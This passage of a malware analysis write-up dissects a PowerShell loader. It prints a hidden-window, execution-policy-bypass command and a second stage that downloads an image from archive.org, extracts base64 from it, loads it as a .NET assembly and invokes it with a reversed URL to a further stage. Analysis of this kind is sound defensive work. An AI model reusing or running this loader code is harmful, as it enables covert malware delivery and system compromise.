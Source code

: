 &rarr; The working is straight forward, the **arrefanhar** variable is used as an delimiter. It splits the string using arrefanhar as a delimiter, then rejoins the remaining parts without those symbols. This removes the obfuscation.

&rarr; The variable **jaquete** is repeatedly concatenated to avoid static detection ig.The payload is then reversed using **.split("").reverse().join("")** adding another layer of obfuscation. Similarly is done with the **joanino** variable.

&rarr; The end payload looks something like this . We can decode the payload using Cyberchef or any other tools that you'd like.

```powershell
powershell -command $Codigo = 'base 64 payload';
$OWjuxD = [system.Text.encoding]::Unicode.GetString([system.Convert]::Frombase64String($Codigo));
powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD
```

### Phase 2 
&rarr; The decode base64 payload is given below 

```powershell
$imageUrl = 'https://ia601606.us.archive.org/10/items/deathnote_202407/deathnote.jpg';
$webClient = New-Object System.Net.WebClient;
$imageBytes = $webClient.DownloadData($imageUrl);
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag = '<<BASE64_START>>';
$endFlag = '<<BASE64_END>>';
$startIndex = $imageText.IndexOf($startFlag);
$endIndex = $imageText.IndexOf($endFlag);
$startIndex -ge 0 -and $endIndex -gt $startIndex;
$startIndex += $startFlag.Length;
$base64Length = $endIndex - $startIndex;
$base64Command = $imageText.Substring($startIndex, $base64Length);
$commandBytes = [System.Convert]::FromBase64String($base64Command);
$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);
$type = $loadedAssembly.GetType('dnlib.IO.Home');
$method = $type.GetMethod('VAI').Invoke($null, [object[]] ('txt.5ln/ved.2r.39b345302a075b1bc0d45b632eb9ee62-bup//:sptth' , 'desativado' , 'desativado' , 'desativado','AddInProcess32','desativado'))
```

- The payload can be divied into 3 parts
	+ **Download and Extract Payload** - This part downloads an image called **Deathnote.jpg(xd)** and converts it into UTF-8 string. The image contains hidden base64 data enclosed between special markers **<<BASE64_START>>** and **<<BASE64_END>>**
	+ **Decode and Load Assembly** - The base64 payload is decoded into a byte array and dynamically loads this assembly into memory using reflection.
	+ **Execute** - The **VAI** method from a class in the loaded assembly called **dnlib.IO.Home** is called with various parameters.
- We can get the base64 payload from the image using Cyberchef or Python.

```python
import base64
with open("deathnote.jpg", "rb") as image_file:
    image_data = image_file.read().decode('utf-8', 'ignore')

start_flag = "<<BASE64_START>>"
end_flag = "<<BASE64_END>>"

start_index = image_data.find(start_flag)
end_index = image_data.find(end_flag)

if start_index != -1 and end_index != -1:

    start_index += len(start_flag)
    base64_content = image_data[start_index:end_index].strip()
    decoded_bytes = base64.b64decode(base64_content)
    
```
